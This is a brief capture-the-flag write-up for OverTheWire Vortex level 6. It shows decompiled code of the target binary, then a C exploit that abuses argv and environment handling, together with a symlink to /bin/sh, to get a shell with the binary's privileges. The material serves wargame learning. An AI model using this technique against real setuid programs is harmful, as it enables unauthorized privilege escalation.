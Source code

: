 # Overthewire Vortex Level 6 Writeup

Given an ELF file. You can disassemble it by hand or use modern tools like IDA.

```c
//----- (0804847D) --------------------------------------------------------
int __cdecl restart(char *file)
{
  return execlp(file, file, 0);
}

//----- (0804849F) --------------------------------------------------------
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  if ( *envp )
    restart((char *)*argv);
  printf(envp[3]);
  _exit(29477);
}
```

And then make a soft link to `/bin/sh` and pass it to the program you want to exploit.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
        char * envp[] = {"", NULL};
        char * argv[] = {"./exploit", NULL};
        execve("/vortex/vortex6", argv, envp);
        return 0;
}
```